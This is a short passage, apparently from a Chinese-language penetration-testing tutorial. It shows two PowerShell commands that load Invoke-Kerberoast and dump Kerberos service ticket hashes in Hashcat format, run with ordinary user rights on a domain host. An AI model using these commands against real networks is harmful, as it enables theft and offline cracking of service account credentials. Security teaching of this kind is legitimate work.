 [![](assets/1699492330-65cb2ef092b190e507acfd08ff1949ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162940-f5efa1ae-7e10-1.png)

#### Powershell-1

在域内一台主机上以普通用户权限执行：

```plain
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat > 1.txt
```
